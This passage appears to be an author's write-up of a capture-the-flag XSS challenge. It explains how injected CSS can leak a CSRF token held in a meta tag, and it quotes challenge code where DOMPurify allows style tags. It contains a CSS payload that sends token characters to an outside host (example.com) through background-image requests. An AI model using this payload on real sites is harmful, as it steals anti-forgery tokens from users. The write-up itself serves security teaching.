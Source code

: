 Usually, the blog post about stealing CSRF token is for `<input>`, but we have `<input type=hidden>` here, so it won't work. if there is other sibling element, we can use sibling selector like this: `input[value^=a] div` to steal the token, but it's also not working here because `<input>` is wrapped by a `<div>`.

Then, how to leak the content? Since `<input>` won't work, we can use `<meta>` tag!

`<meta>` is not displayed because browser adds a default `display:none` attribute, we can override it by explicitly declare `meta { display:block; }`. It's not enough, because `<meta>` is under `<head>`, and `<head>` is also hidden by default, so we need `head, meta { display:block; }` to make it visible.

You may wondering: "It should be useless to make it 'visible', because meta content is invisible by default, you can't see the content on the screen!"

It sounds fair, but surprisingly, the style for `<meta>` still apply even you can't see the content. 

![](/img/intigriti-0822-xss-author-writeup/p4.png)

By the way, there is a selector called [:has](https://developer.mozilla.org/en-US/docs/Web/CSS/:has), this will make this challenge much easier. But it's enabled by default from Chrome 105 which is still in beta until the end of August(yep, two days after). 

If we can inject `<style>` tag, we can steal the first character of the CSRF token in the following way:

```html
<style>
  head, meta[name=csrf-token] {
    display: block;
  }
  
  meta[name=csrf-token][content^="a"] { 
    background: url(https://example.com?char=a);
  }
  
  meta[name=csrf-token][content^="b"] { 
    background: url(https://example.com?char=b);
  }
</style>
```

We can steal all 32 characters by doing the same thing again and again. The implementation is a bit trivial, you can build your own or try to utilize some open-source projects on GitHub.

When displaying a message, it calls `DOMPurify.sanitize` to filter out malicious content, but `<style>` is not consider harmful and it's allowed by default in DOMPurify.

```js
function showMessage(message, options) {
  const getTimeout = options.timeout || (() => 1000)
  const container = options.container || document.querySelector('body')

  const modal = document.createElement('div')
  modal.id = 'messageModal'
  modal.innerHTML = DOMPurify.sanitize(message)
  container.appendChild(modal)
  history.replaceState(null, null, ' ')

  setTimeout(() => {
    container.removeChild(modal)
  }, getTimeout())
}
```
